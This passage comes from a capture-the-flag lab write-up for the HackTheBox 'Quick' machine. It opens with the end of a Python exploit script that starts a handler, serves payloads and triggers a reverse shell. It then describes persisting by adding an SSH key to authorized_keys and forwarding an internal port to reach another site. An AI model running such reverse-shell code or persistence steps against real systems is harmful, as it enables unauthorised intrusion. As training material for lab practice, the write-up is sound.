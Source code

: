 ```py
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Login on the page
    loginSite(rhost)
    # Create the payloads
    createShellPayload(lhost,lport,nameshell)
    createPayload(lhost,nameone,nametwo,nameshell)
    # Trigger the reverse shell
    triggerPay(rhost,lhost,nameone,nametwo)

if __name__ == '__main__':
    main()
```

# Sam --> srvadm

We see that the box has two users

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:00:32.png)

We add a ssh key to the server, to better manage it

```sh
ssh-keygen -t ed25519 -f 0x4rt3mis
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:05:48.png)

Add to authorized_keys

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:06:38.png)

Now, just ssh on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:07:56.png)

We look at `/etc/apache2/sites-enabled/000-default.conf` apache conf file and found on server running port 80, is the printerv2.quick.htb

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:10:47.png)

Let's forward this port with `ssh -L 5555:127.0.0.1:80 sam@10.10.10.186 -i /tmp/0x4rt3mis` Then let's add printerv2.quick.htb to my local host file pointing to 127.0.0.1.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:12:13.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:12:40.png)

We see other web page!
